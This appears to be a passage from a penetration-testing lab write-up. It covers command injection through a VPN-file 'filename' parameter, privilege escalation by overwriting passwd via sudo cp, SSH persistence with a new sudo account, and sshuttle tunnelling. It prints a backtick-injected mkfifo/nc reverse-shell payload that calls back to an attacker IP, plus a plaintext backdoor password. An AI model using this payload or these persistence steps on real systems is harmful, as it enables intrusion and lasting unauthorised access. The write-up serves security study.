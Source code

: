 ![Insert picture description here](https://img-blog.csdnimg.cn/589136785a09437296bae3e72606d012.png)

logo

![Insert picture description here](https://img-blog.csdnimg.cn/20e1a9e4548847dfadbb55400ae02a29.png)

Here you can request the ovpn file. I pass the filename parameter. I associate it from sql injection to command injection. There is a suffix and no echo

Use backticks, try nc to try your luck to connect back to the attack plane, and it succeeds

![Insert picture description here](https://img-blog.csdnimg.cn/8c9397b468b34c41ae417f8650a5c09e.png)

Direct old method getshell

    ?filename=`mkfifo+/tmp/f1%3bnc+10.50.116.23+443+<+/tmp/f1+|+/bin/bash+>+/tmp/f1`

![Insert picture description here](https://img-blog.csdnimg.cn/5c477ba51ce34347a8364a8c82d70a14.png)

#### Privilege Escalation - cp

View sudo -l

![Insert picture description here](https://img-blog.csdnimg.cn/318f020e019b4540b6206d92a00c6d56.png)

Very simple extraction method, directly overwrite passwd

![Insert picture description here](https://img-blog.csdnimg.cn/9cfaad78a5dd42da80f4c118e07eefe8.png)

#### Persistence

Harden the shell first

![Insert picture description here](https://img-blog.csdnimg.cn/b9b6f6dc43824cb5852ef3409711357b.png)

Edit the ssh configuration file to allow password login

![Insert picture description here](https://img-blog.csdnimg.cn/88b0d3c9233c41ba8a791f16b4c91d18.png)

Create an ssh account and add yourself to the sudo group to facilitate follow-up actions


![Insert picture description here](https://img-blog.csdnimg.cn/cfb41bd2cc384b3e859f11047a692132.png)

1q2w3e4r!@#$
usermod -a -G sudo hackerMM


#### sshuttle builds a tunnel

![Insert picture description here](https://img-blog.csdnimg.cn/4ba0a137ca2e480196aabfc5602fd346.png)


## Phishing campaign targeting banking team

